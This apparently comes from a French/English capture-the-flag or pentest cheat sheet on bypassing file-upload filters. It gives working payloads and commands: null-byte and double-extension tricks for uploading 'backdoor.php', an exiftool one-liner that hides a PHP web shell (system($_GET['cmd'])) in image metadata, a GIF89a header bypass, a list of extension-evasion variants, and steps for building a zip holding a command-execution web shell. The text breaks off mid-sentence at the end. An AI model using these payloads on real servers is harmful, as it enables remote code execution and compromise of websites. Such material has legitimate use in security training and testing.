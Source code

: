 # File Upload


## exemple de base:


<form action="upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>


## exemple spécifique:

<form method="POST" enctype="multipart/form-data" action="http://challenge01.CTF.exemple/realiste/ch6/index.php?sl=../adm&adm=1" >
<input type="file" class="file" name="downloads" size="30">
<input type="hidden" name="action" value="upload">
<input type="hidden" name="function" value="downloads">
<input type="submit" class="submit" value="Upload">
</form>

## NULL BYTE:

pour jouer avec les extensions: 
Solution1:  nommer le fichier backdoor.pngA.php puis intercepter avec burp. Dans le code Hexa remplacer le 41 (A) en hexa par 00
Solution2: nommer le fichier backdoor.php%00.png
Remarque: la réussite dépends du code qui tourne coté serveur pour valider le fichier


## MIME TYPE:

lorsqu'on joue avec les extentions verifier que le “content type” correspond
Content-Type: image/png


## PHP getimagesize()

For file uploads which validate image size using php getimagesize(), it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
You can do this with gimp or exiftools:

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpgmv file.jpg file.php.jpg

I'm not sure why some tutorials have the php extension first while others have it second. Try both.


## GIF89a; header

GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:

GIF89a;
<?php 
phpinfo(); 
?>

## EXIF

Inserrer du JS dans les metadata

## misc:

• Content-Type —>Change the parameter in the request header using Burp, ZAP etc.
• Put server executable extensions like file.php5, file.shtml, file.asa, file.cert
• Changing letters to capital form file.aSp or file.PHp3
• Using trailing spaces and/or dots at the end of the filename like file.asp… … . . .. .. , file.asp , file.asp.
• Use of semicolon after the forbidden extension and before the permitted extension example: file.asp;.jpg (Only in IIS 6 or prior)
• Upload a file with 2 extensions—> file.php.jpg
• Use of null character—> file.asp%00.jpg
• Create a file with a forbidden extension —> file.asp:.jpg or file.asp::$data
• Combination of the above


## ZIP:


Zip Wrapper
The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. This wrapper isn't enabled by default and can be installed with the command below:
apt install phpX.Y-zip
Follow the steps below to create a malicious archive.
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
Next, copy malicious.zip to the webroot to simulate the upload. The files in the zip archive can be referenced using the # symbol, which should be URL-encoded in the request. For example, the URL below can be used to include exec.php and then execute code using the cmd parameter.
   






